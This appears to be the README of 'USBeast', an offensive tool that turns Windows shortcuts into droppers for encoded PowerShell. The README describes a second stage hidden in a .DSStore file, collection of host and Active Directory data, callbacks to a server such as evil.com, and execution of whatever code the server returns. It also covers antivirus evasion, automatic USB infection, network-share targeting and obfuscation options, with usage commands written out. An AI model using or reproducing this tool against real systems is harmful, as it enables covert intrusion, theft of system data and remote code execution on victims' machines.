

# USBeast - Weaponizing Shortcuts
PowerShell + Shortcuts = Fun.

USBeast creates a shortcut to PowerShell with an encoded command that invokes a secondary payload hidden in a file.
By default basic system information is gathered and sent towards a callback server. The default 'server.py' server awaits connections and writes the received callback information to a logfile.

Data returned by the server will be executed as PowerShell code.

The default scripts can be easily extended and it also allows the deployment of additional code (see payloads/readme.txt for more information).



## Basic usage
```
clone this git or download and extract the code
$ cd USBeast (or USBeast-master)
$ pip install -r requirements.txt
$ python usbeast.py -h
```
By default the following information is gathered on a target:
_Active Directory, Architecture, Domain, Domain Controller information, Hostname, Running Processes, Mounted SMB Shares, Current Username and Available Volumes._

#### USB drop

`python usbeast.py`

Automatically puts exploit code on newly attached USB devices, useful for mass-production.

#### Target other users on a PC

`python usbeast.py -o C:\Users\Public\Desktop -s "http://evil.com/images/evil.gif" -f Secret`

Creates a shortcut called Secret which runs the exploit code.
Callbacks will be sent to http://evil.com/images/evil.gif as Base64 encoded post-data.


#### Target a network

`python usbeast.py -o \\MyPublicNetworkFolder\ -s "http://evil.com/images/evil.gif" -f Data --fake-folder=Data --nocreate-fake-folder`

Creates a shortcut called Data which runs the exploit code and attempts to open an existing folder called Data.

### Why this still works?

- AVs do not attempt to read the .DSStore file since they mostly enforce a file-type whitelist. This is where all the fun stuff is hidden
- All code is eval'd using Invoke-Expression which (by default) is allowed without bypassing the ExecutionPolicy
- The callback code allows the use of HTTPS which hides suspicious network traffic
- No files are written to disk

## Advanced usage

```
Usage: usbeast.py [options]

Options:
  -h, --help            show this help message and exit
  -o OUTPUT, --output=OUTPUT
                        Output directory for files, if none is set the code
                        will automatically attempt to put the code on new USB
                        devices.
  -s SERVER, --server=SERVER
                        The connect back server, can be server.py or any other
                        HTTP(s) server. format: http://host{:optional
                        port}/{optional random file / directory name}
  -p, --pwn             Run additional code after callback is sent, see
                        payloads/readme.txt for more information
  -i ICON, --icon=ICON  Icon file, number. Use embedded DLL or EXE file for
                        custom Icons. shell32.dll works best in most cases,
                        see misc folder for number references
  --shell32-icon=SH32ICO
                        Shell32.dll Icon number
  -f INK_FILE, --filename=INK_FILE
                        Name of the shortcut file to create, default: Images
  --payload-file=PAYLOAD_FILE
                        Name of the (hidden) file which contains the actual
                        payload
  --fake-folder=FAKE_FOLDER
                        Create a fake folder and open once the code is
                        executed.
  --nocreate-fake-folder
                        Don't actually create the fake folder. When folder is
                        not found Quick Access is opened in explorer
  --obfuscate           Attempt to hide the content of the second stage file
                        by appending a lot of newlines
  -v                    Show verbose messages

  PowerShell options:
    PowerShell related configuration

    --bypass            Use ExecutionPolicy: Bypass, allows more advanced
                        features but might trigger AV
    --no-hide           Do not attempt to hide the PowerShell window
    --custom-path=CUSTOM_PATH
                        Custom path to powershell.exe, make sure this file
                        exists on the target.
    --relative-powershell
                        Use powershell.exe without the full path, only use if
                        powershell.exe is available in the current directory.
```

Like any exploitation tool, great power comes with great responsibility. Only use against yourself and targets you are allowed to pwn. I am not responsibly for any damage done by this tool.